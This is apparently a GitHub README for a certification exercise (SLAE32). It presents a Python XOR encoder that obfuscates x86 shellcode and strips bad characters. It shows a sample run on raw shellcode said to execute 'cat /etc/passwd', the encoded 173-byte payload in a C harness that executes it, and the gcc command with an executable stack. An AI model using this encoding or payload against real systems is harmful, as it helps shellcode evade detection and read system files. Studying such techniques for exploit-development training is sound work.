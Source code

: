 # SLAE32 Shellcode Xor Encoder (Assignment 4).

This repository is part of the SLAE certification process from PentesterAcademy.com

## Description

This encoder is using XOR to encode your shellcode. It support shellcode from any size and support bad characters.

Even if bad characters support wasn't required to solve the challenge, I tought it would be something cool to learn and do.

## Usage

* `-s` : Shellcode to encode (Ex: \x31\xe2...\xeb).
* `-b` : Bad chars list (Ex: \x0a\x0d), NULL is always a bad char.")
* `-v` : Enable verbose.
* `-j` : Append junk opcode at the end of the original shellcode to vary it size.
* `-p` : Check if final payload is really free of badchars (Paranoid mode).

## Example

We will use my `cat /etc/passwd` shellcode from https://www.phrozen.io/docs/linux/slae32/ex2-reverseshell/ paper.

local@user:# `./xor-encoder.py -s "\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x69\x6e\x2f\x2f\x68\x2f\x2f\x2f\x62\x89\xe3\x66\xb8\x2d\x63\x50\x31\xc0\x89\xe2\x50\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x20\x2f\x65\x74\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe6\x50\x56\x52\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80" -b "\x0a\x0d" -v -p`

![Example Picture](https://i.ibb.co/J2FLvDK/Screenshot-2020-06-04-at-15-25-39.png)

### Test it

`````
#include<stdio.h>
#include<string.h>

// Shellcode size = 173
unsigned char code[] = \
        "\xeb\x1a\x5e\x31\xc9\x31\xc0\x31\xdb\xb1\x46\x8a\x24\x1e\x8a\x44"
        "\x1e\x01\x30\xc4\x88\x26\x43\x46\xe2\xf1\xeb\x05\xe8\xe1\xff\xff"
        "\xff\x14\x25\x79\xb9\x88\xd8\x56\x3e\x1e\x7c\x3e\x5f\xaf\xdc\xda"
        "\xb2\xa5\xcd\x6d\x04\x60\x0e\x52\x7d\xb5\x9a\x8f\xe7\xbc\x93\xd2"
        "\xfd\x4c\x63\x5c\x3e\x06\x8f\x1d\xfe\xf4\x92\x66\xde\xe8\xc5\xd3"
        "\xb0\xff\xaf\x93\xa2\x62\xa2\x79\xf0\x82\x60\xa2\xf2\xfb\x93\x78"
        "\x0b\x85\xf6\x26\x51\x5c\x38\xbb\xd3\x79\x1a\x4d\x62\x6a\x1a\xfa"
        "\x9b\x58\x30\x9b\xbb\x92\xbd\xdb\xbe\x6f\x1b\x1e\x76\xe2\xcd\x3a"
        "\x59\x09\x68\x58\x2c\xa0\xc8\x4e\x61\x81\xe3\x0f\x66\x10\x7e\xc0"
        "\x49\x68\x8e\x21\x71\x26\x70\x47\x15\x2c\x7f\xcf\x46\x05\xe4\x11"
        "\x41\x4b\xc2\x3a\xd8\x28\x98\x41\x4a\x6d\xa0\x16\x96";

main()
{
	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();
}
`````

local@user:# `gcc shellcode.c -o shellcode -z execstack && ./shellcode`

![Shellcode Exec](https://i.ibb.co/0FpGPZR/Screenshot-2020-06-04-at-15-29-03.png)
